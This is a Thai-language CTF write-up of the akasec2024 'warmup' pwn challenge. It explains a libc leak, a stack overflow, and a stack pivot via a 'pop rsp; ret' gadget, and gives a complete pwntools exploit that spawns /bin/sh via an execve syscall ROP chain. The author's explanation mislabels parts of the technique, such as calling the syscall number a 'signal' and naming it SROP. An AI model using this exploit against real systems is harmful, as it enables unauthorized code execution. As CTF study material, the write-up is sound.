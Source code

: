 # Solution

-----

 สวัสดีครับผม Sudrit วันนี้จะมาลองเขียน writeup เกี่ยวกับ pwn จากงานแข่ง ctf  ที่ชื่อว่า akasec2024 กันครับ ต้องบอกก่อนเลยว่าผมไม่ค่อยรู้เรื่องพวกนี้เท่าไหร่ แต่จะลองมั่วๆดูนะครับ lol แล้วก็ผมไม่ได้ทำข้อนี้ในระหว่างแข่งครับ แต่มาทำหลังจากแข่งเสร็จแล้วนั่งอ่าน writeup คนอื่นรวมถึงสอบถามพี่ Jusmistic มาครับ เลยลองมาเขียนๆดูเพราะทบทวนตัวเอง แต่ไม่น่าจะแชร์ให้ใครดู 5555

ใครผ่านมาเห็นก็ไม่ต้องแชร์เยอะนะครับ ผม super shy



โดยโจทย์ข้อนี้มีชื่อว่า warmup ซึ่งผมคิดว่ามันไม่ warmup เลยยยย มันยากนะเนี้ย

เริ่มต้นที่โจทย์จะให้ไฟล์มาสองไฟล์คือ Binary File และ Dockerfile ซึ่งเราสามารถรันโจทย์ผ่าน docker ได้โดยมี env ต่างๆ เดียวกันกับโจทย์ในระบบทำให้เราสามารถดึงไฟล์ libc ที่โปรแกรมใช้มาได้โดยใช้ ldd จากนั้นทำการ patch ไฟล์ binary กับ libc ที่ได้มาและเริ่มทำการ decompile ตัวโจทย์กันเลยครับ โดยได้โค้ดตามนี้

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  helper();
  printf("%p\n", &puts);
  printf("name>> ");
  fgets(name, 512, stdin);
  printf("alright>> ");
  fgets(s, 88, stdin);
  puts("okey");
  return 0;
}
```

พบว่าตัวโปรแกรมมีการ leak ตัว address ของ puts มาให้ซึ่งทำให้เราสามารถหา base address  ของ libc ได้นะครับโค้ดประมาณนี้มั้ง ปล เพื่อความง่ายใน local ก็ปิด aslr ด้วยนะครับ

```python
leaked_puts = int(r.recv(14),16)
libc.address = leaked_puts - libc.sym.puts
log.info(hex(libc.address)) #0x7ffff7dab000
```

แล้วก็สังเกตุว่าตัวโปรแกรมจะมีการรับค่าจำนวนสองครั้งผ่าน fgets โดยสามารถใส่ใน name ได้จำนวน 512 bytes และ s อีก 88 bytes เป็นจำนวนสูงสุดที่ถูกจองไว้มั้งครับ โดยเราสามารถสังเกตุได้ว่าที่ตัวแปร s เราสามารถใส่ได้จำนวน 64+8 bytes จึงถึงจุดที่เรากำหนด rip ได้ครับ

ซึ่งตอนแรกผมทำแบบ ROP ทั่วไปที่ call system เลยครับแล้วมันไม่ได้ เพราะอะไรไม่รู้ 5555 แต่เหมือนมีคนอธิบายในดิสคอร์ดนะครับแต่ผมก็ไม่ค่อยเข้าใจใครรู้มาอธิบายผมด้วย ซึ่งการทำแบบเดิมๆนั้นมันทำไม่ได้ครับ มันเลยต้องใช้ท่าใหม่โดยท่านี้เรียกว่า Stack Pivot นะครับ หากใครอยากรู้ว่าคืออะไรไปหาอ่านได้ที่นี่เลยครับ [Stack Pivoting | Binary Exploitation (gitbook.io)](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

ซึ่งเงื่อนไขในการใช้งานได้นะครับ

1. มี input ที่เราใส่แล้วทำการ hijack control flow ได้ ในที่นี้ก็คือ s

2. มี input ที่เราใส่ได้เย๊อะๆ ในที่นี้ก็คือ name ซึ่งมี address คือ `0x404060`

3. มี gadget ที่เด็ดๆนะครับ `pop rsp; ret` ให้เราใช้งานดูได้จาก ROPgadget เลย

โดยเราจะเขียน rop chain ลงใน name นะครับโดยในกรณีนี้เหมือนที่ผมได้บอกตอนแรกครับคือมันใช้ system ไม่ได้เพราะไรไม่รู้ ผมเลยไปอ่านๆของคนอื่นมาเขาบอกว่า ต้องใช้ SigreturnFrame หรือก็คือการทำ SROP ครับ โดยใช้ syscall เป็นตัวหลักในการเรียกใช้ function ต่างๆ โดย signal ซึ่งในที่นี้เราจะเรียกใช้ `execve` โดยการเรียกใช้เราต้องเซทค่า register ตามที่กำหนดในเว็บนี้ครับ [Chromium OS Docs - Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) จากนั้นเราก็ลองไล่หาดูนะครับ จะได้ประมาณนี้ 

| arch   | syscall NR | return | arg0                  | arg1 | arg2 |
| ------ | ---------- | ------ | --------------------- | ---- | ---- |
| x86_64 | rax        | rax    | rdi                   | rsi  | rdx  |
|        | 0x3b       | 0x3b   | address of "/bin/sh"" | 0x0  | 0x0  |

แล้วเราก็ใช้ข้อมูลนี้มาเขียน rop chain ครับแล้วก็ทำการส่งเข้าตัวแปร name จะได้ประมาณนี้

```python
rop_chain = ROP(libc)
rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
rop_chain.rsi = 0 #argument 2
rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
r.sendlineafter(b'name>>',rop_chain.chain())
```

ต่อไปจะเป็นอะไรที่สำคัญนะครับแล้วผมก็ค่อนข้างจะงง 5555555

คือเราจะใช้ตัว `pop rsp; ret` ให้เป็นประโยชน์นะครับ โดยเราจะ exploit ส่ง payload ผ่าน s แล้วให้ execute ตัว rop chain ของเราที่ address ของ name โดยจะเห็นว่า rsp จะเป็นตัวที่อยู่ด้านบนสุดของ stack ในตอนนี้ซึ่งหากเรา ret ไปที่ gadget  ดังกล่าวจะทำให้ มีการ pop rsp ออกมาและถูกแทนที่ด้านบนสุดของ stack กลายเป็น address ของตัว name ที่เราได้ใส่ rop chain อัดเข้าไปข้างใน ดูได้จากสองรูปข้างล่างนะครับ พอเข้าสู่ rop chain แล้วก็รันตามกระบวนการเลยครับทำให้เราสามารถเข้าถึงเครื่องของโจทย์และได้รับ flag.txt

<img title="" src="./pic/2024-06-13-00-47-50-image.png" alt="" width="430" data-align="center">

<img title="" src="./pic/2024-06-13-00-49-00-image.png" alt="" width="426" data-align="center">

หากนำมาเขียน exploit จะได้ประมาณนี้ครับ

```python
#!/usr/bin/env python3

from pwn import *
from pwn import p64

exe = ELF("./warmup_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
#context.log_level = "DEBUG"
context.terminal = ["xterm", "-e"]
context(os='linux', arch='amd64', log_level='debug')

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdbscript = """
        b *0x40124f
        b *0x40118e
        c
        """
        #gdb.attach(r,gdbscript=gdbscript)
    else:
        r = remote("addr", 1337) #เซิฟปิดไปละทำไม่ทัน TwT

    return r


def main():
    r = conn()
    leaked_puts = int(r.recv(14),16)
    libc.address = leaked_puts - libc.sym.puts
    log.info(hex(libc.address)) #0x7ffff7dab000
    
    rop_chain = ROP(libc)
    rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
    rop_chain.rsi = 0 #argument 2
    rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
    rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
    r.sendlineafter(b'name>>',rop_chain.chain())
    
    rop_elf = ROP(exe)
    pop_rsp = rop_elf.find_gadget(["pop rsp","ret"])[0]
            
    payload = b'A'*64 + p64(0) + p64(pop_rsp) + p64(0x404060)
    r.sendlineafter(b'alright>>',payload)

    r.interactive()

if __name__ == "__main__":
    main()


```

โดยจากที่กล่าวมานี่ก็คือเทคนิค stack pivot นั่นเองครับที่เป็นการแก้ค่า rsp ให้เป็นค่าที่ของ address ที่เราต้องการแทน ที่อ่านๆมาเขาบอกว่าเป็นการ fake location อะไรซักอย่างบน stack มั้งครับ ผมก็ไม่แน่ใจ แล้วก็อีกอย่างคือไม่ต้อง code คล้ายๆผมก็ได้ครับ ผมเห็นคนอื่นเขาใช้ SigreturnFrame() ทำเลยก็ดูเท่ดีครับ ลองไปปรับๆใช้กันดู
